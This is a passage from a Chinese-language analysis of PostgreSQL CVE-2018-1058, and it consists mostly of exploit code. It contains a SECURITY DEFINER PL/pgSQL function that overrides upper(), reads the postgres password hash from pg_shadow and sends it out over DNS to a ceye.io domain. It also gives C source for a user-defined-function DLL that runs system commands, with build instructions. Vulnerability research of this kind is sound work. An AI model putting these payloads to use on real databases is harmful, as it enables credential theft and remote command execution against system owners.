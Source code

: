 ```SQL
CREATE OR REPLACE FUNCTION public.upper(character varying) RETURNS text AS $$
DECLARE exec_cmd TEXT;
DECLARE query_result TEXT;
BEGIN
SELECT INTO query_result (SELECT passwd FROM pg_shadow WHERE usename='postgres');
exec_cmd := E'COPY table_output(content) FROM ''\\\\'||query_result||E'.pv8gif.ceye.io\\foobar.txt''';
EXECUTE exec_cmd;
RETURN pg_catalog.upper($1);
END;
$$ LANGUAGE plpgsql SECURITY DEFINER;
```

这里有一个问题，就是如何避免注入后的报错，暂未想出更好的办法
![5](./postgresql-远程代码执行漏洞（cve-2018-1058）分析及利用/20180331212824777.png)

#### 4.3.2 利用方式三

把如下的源码编译(udf.c)：

```C
#define BUILDING_DLL 1
#include <postgres.h>
#include <fmgr.h>
#include <stdlib.h>
#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PGDLLIMPORT exec() {
	elog(INFO, "import success\n");
	system("echo 123 > D:\1.txt");
}
```

由于是在 Windows 环境下实验，所以我将其编译为了 dll 文件（注意：根据 Postgres 版本不同应选用不同的库）

需要从官网下载对应的 Zip 版，因为 zip 版才是用 VS 编译，有 lib 静态链接库

[Download PostgreSQL Binaries](https://www.enterprisedb.com/download-postgresql-binaries)

只需要选择对应版本即可，同时应注意应用位数

![6](./postgresql-远程代码执行漏洞（cve-2018-1058）分析及利用/20180401162505168.png)
